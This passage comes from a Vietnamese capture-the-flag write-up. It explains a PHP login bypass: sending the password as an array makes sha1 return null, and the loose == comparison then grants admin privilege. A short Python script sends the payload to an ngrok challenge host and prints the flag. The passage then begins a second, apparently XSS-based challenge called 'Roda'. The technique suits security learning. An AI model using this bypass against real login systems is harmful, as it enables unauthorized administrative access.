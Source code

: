 ### Payload
Ở đây mình chỉ cần truyền vào `username` một giá trị bất kì không là `key` nằm trong array `users`, khi đó ở hàm `lookup` sẽ trả về rỗng => `$sha1pass=""`

Ở đoạn `sha1($_POST['password'])` thì truyển vào 1 array thì khi `sha1` sẽ trả về null. Quan trong ở đây, chương trình sử dụng compare `==` => `"" == null` sẽ trả về true. Khi đó pass được if và kiểm trả username không bằng guest thì sẽ set cho `privilege=admin`. Để dễ hiểu thì mình để đoạn debug ở đây nhé
![image](https://user-images.githubusercontent.com/54855855/140966739-5be5a524-c682-479d-b53a-0fa414c4394c.png)

Final payload

```py
import requests
from bs4 import BeautifulSoup

rq = requests.Session()

url = 'http://6ae0-14-233-85-235.ngrok.io'

def login():
	data = {'username':'taidh','password[]':''}
	rq.post(url=url+'/login.php', data=data)

def getFlag():
	r = rq.get(url=url+'/index.php')
	sourp = BeautifulSoup(r.content,'html.parser')
	flag = sourp.findAll('p')[0]
	print(flag)

if __name__ == '__main__':
	login()
	getFlag()
```
Các bạn nhớ tạo 1 file `flag.txt` ở `/` nhé (nếu deploy local)

![image](https://user-images.githubusercontent.com/54855855/140967817-7b5c9999-b458-4df1-a56a-6d8d1ad83d16.png)

## Challenge Roda
Cấu trúc của source code mà author cung cấp như sau
![image](https://user-images.githubusercontent.com/54855855/140973107-ea416d40-5670-4883-aea1-fbe1e9c21fdf.png)

Đầu tiên ở folder `worker` có file `index.js`, sau khi đọc qua thì thấy ở file này có chức năng là giống như một con bot. Mới đọc file này thì thấy được bài này có thể là `xss` rồi hehe.

Qua folder web là luồng hoạt động chính của web và bắt đầu đi vô phân tích file `index.js` của folder này. Ở đây mình sẽ phân tích những function cũng như luông hoạt động như nào để dẫn đến exlpoit được thôi nhé

```js
app.get('/', (req, res) => {
  res.render('index');
});
```
Router này thì chỉ có render ra file index (trang chủ)
